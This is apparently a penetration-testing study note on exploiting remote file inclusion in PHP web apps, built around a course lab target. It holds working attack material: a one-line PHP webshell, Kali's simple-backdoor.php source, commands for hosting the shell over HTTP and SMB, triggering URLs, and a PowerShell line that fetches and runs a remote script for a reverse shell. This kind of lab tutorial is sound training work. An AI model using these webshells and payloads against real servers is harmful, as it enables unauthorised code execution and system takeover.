

---
tags:
  - phase/exploitation
  - rce
  - rfi
  - web
---

# Remote file inclusion (RFI)

> [!tip] Quick Reference — RFI
> | Step | Command |
> |------|---------|
> | Create PHP shell | `echo '<?php system($_GET["cmd"]); ?>' > shell.php` |
> | Host malicious file | `python3 -m http.server 80` |
> | Basic RFI test | `?page=http://<LHOST>/test.txt` |
> | RFI shell | `?page=http://<LHOST>/shell.php` |
> | Host SMB share (Windows RFI) | `sudo impacket-smbserver share . -smb2support` |
> | SMB RFI (Windows) | `?page=\\<LHOST>\share\shell.php` |

## Decision Tree

```
LFI confirmed — does it also load remote URLs?
├── Test: ?page=http://<your-IP>/test.txt
│   ├── Get request hits your server → RFI confirmed!
│   └── No hit → RFI not available (allow_url_include=Off)
│
├── RFI confirmed?
│   ├── Create PHP shell on Kali
│   │   └── echo '<?php system($_GET["cmd"]); ?>' > shell.php
│   ├── Start web server
│   │   └── python3 -m http.server 80
│   └── Trigger: ?page=http://<LHOST>/shell.php&cmd=id
│
├── Windows target?
│   └── Try SMB: ?page=\\<LHOST>\share\shell.php
│       └── sudo impacket-smbserver share . -smb2support
│
└── Got RCE → upgrade to reverse shell
    └── ?page=http://<LHOST>/shell.php&cmd=powershell+-c+"iex(iwr http://<LHOST>/shell.ps1)"
```

## Visual Flow



> [!success] What success looks like
> The page response now includes the output of your command. Including `simple-backdoor.php` with `&cmd=ls` returns a directory listing (`admin.php`, `bavarian.php`, `index.php`, ...) embedded inside the page, and your `python3 -m http.server` logs a GET for `simple-backdoor.php`.

> [!danger] Common errors
> - Your server never gets a hit → `allow_url_include` is disabled (common); RFI won't work, switch to LFI/log poisoning or PHP wrappers.
> - Web server not reachable → make sure `python3 -m http.server 80` runs from the directory holding the webshell and the target can reach your IP.
> - `python3 -m http.server 80` fails with `OSError: [Errno 98] Address already in use` → a previous server/listener is still bound to that port. `sudo lsof -i :80` to find the PID, `sudo kill <PID>` (or serve on a different port and update the `?page=` URL to match).
> - `impacket-smbserver` fails to bind (`error opening file` / address in use on 445) → Kali's own SMB service is running on port 445. Stop it first: `sudo systemctl stop smbd` (check with `sudo lsof -i :445`).
> - SMB RFI never fires → outbound SMB (port 445) is frequently blocked by firewalls even when HTTP isn't; confirm reachability, or fall back to the HTTP-hosted `python3 -m http.server` approach.
> - `&` or special chars mangled in the URL → wrap the URL in quotes for curl and URL-encode if needed. See [[🔣 Encoding Reference]].
> Full list: [[⚠️ Common Errors & Troubleshooting]]

> [!tip] Beginner note
> RFI is like LFI but the included file lives on *your* machine instead of the target's. Because PHP executes whatever it includes, pointing the `page=` parameter at your hosted PHP webshell makes the target run your code — instant remote code execution.

## Resources
- [HackTricks — RFI](https://book.hacktricks.xyz/pentesting-web/file-inclusion#rfi)
- [PayloadsAllTheThings — RFI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#remote-file-inclusion)


Remote file inclusion (RFI) vulnerabilities are less common than LFIs since the target system must be configured in a specific way. In PHP web applications, for example, the allow_url_include option needs to be enabled to leverage RFI, just as with the data:// wrapper from the previous section.

Kali Linux includes several PHP webshells in the /usr/share/webshells/php/ directory that can be used for RFI. A webshell is a small script that provides a web-based command line interface, making it easier and more convenient to execute commands. In this example, we will use the simple-backdoor.php webshell to exploit an RFI vulnerability in the "Mountain Desserts" web application.

> [!info] The simple-backdoor.php webshell
> Kali's `/usr/share/webshells/php/simple-backdoor.php` runs any command passed in `cmd` via `system()`:
> ```php
> <?php
> if(isset($_REQUEST['cmd'])){
>     echo "<pre>";
>     $cmd = ($_REQUEST['cmd']);
>     system($cmd);
>     echo "</pre>";
>     die;
> }
> ?>
> ```
> To use it for RFI, host it somewhere the target can reach. `python3 -m http.server` serves the current directory, so run it from the webshells folder (a public URL such as GitHub raw would also work).


Start the server from the webshells directory, then point the `page` parameter at your hosted webshell and pass a command with `&cmd=`. A successful listing in the response (wrapped in `<pre>`) confirms RFI. From here, upgrade to a reverse shell with Netcat exactly as in the LFI section.

python3 -m http.server 80

curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"

└─$ curl "http://192.168.158.16/meteor/index.php?page=http://192.168.45.220/simple-backdoor.php&cmd=ls"

---
%% graph-links %%
## Related
- [[Local file inclusion (LFI)]]
- [[PHP wrappers]]
- [[Using executable files]]

> [!info] Navigation
> Section: [[Web Applications/Common Web Application Attacks/File Inclusion Vulnerabilities/_index|File Inclusion Vulnerabilities]] · Home: [[🏠 Home]]

